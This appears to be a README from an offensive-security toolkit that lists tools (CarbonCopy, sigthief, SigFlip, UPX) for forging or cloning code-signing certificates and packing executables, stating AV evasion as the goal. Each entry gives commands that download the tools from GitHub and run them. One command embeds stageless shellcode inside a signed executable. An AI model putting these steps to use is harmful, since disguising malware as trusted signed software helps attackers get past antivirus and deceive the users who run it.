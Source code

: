 ## CarbonCopy.py

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|CarbonCopy|A tool which creates a spoofed certificate of any online website<br />and signs an Executable for AV Evasion. Works for both Windows and Linux|User Land|To be executed under Linux|

**download Script:**
```shell
wget https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Sign-Executables/CarbonCopy.py -O CarbonCopy.py
```

**prerequisites:**
```shell 
apt-get install osslsigncode
pip3 install pyopenssl
```

**execute:**
```python   
python3 CarbonCopy.py www.microsoft.com 443 prometheus.exe signed-prometheus.exe
```

<br />

## sigthief.py

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|sigthief|A tool to sign an Executable for AV Evasion.<br />It clones signcheck.exe to sign the new binary|User Land|Dependencies: python3|

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Sign-Executables/sigthief.py" -OutFile "sigthief.py"
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Sign-Executables/signcheck.exe" -OutFile "signcheck.exe"
```

**execute:**
```python   
python Sigthief.py -i "sigcheck.exe" -t "prometheus.exe" -o "signed-prometheus.exe"
```

<br />

## SigFlip.exe

|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|SigFlip|A tool to sign an Executable for AV Evasion.|User Land|[Author: @med0x2e](https://github.com/med0x2e/SigFlip)|

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Sign-Executables/SigFlip.exe" -OutFile "SigFlip.exe"
```

**execute:**
```powershell 
#Help
.\SigFlip.exe -h

#Sign original PE
.\SigFlip.exe -b "original.exe" "Signed-original.exe"

#build Signed Shellcode Executable { embebbed shellcode.bin on Signed-original.exe }
.\SigFlip.exe -i "original.exe" "x64-stageless.bin" "Signed-original.exe"
```





<br />

## upx.exe

|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|upx|compress or expand executable filess|User Land|[Author: Markus Oberhumer, Laszlo Molnar & John Reiser](https://upx.github.io)|

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Sign-Executables/upx.exe" -OutFile "upx.exe"
```

**execute:**
```powershell 
# Pack original PE
.\upx.exe --best "program.exe"
```

